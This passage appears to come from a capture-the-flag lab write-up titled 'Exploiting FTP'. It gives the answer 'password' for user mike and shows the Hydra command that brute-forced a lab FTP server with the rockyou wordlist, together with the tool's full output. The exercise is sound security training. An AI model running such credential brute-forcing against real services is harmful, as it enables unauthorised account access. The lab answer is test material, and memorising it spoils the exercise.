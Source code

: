 #### Exploiting FTP

<div style="text-align: center"><img src="./image24.png"></div>

<br>

What is the password for user "mike"?

```
password
```

```shell
root@ip-10-10-87-146:~# hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.41.45 ftp
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-06-25 04:40:47
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ftp://10.10.41.45:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
[21][ftp] host: 10.10.41.45   login: mike   password: password
[STATUS] attack finished for 10.10.41.45 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-06-25 04:41:03
```
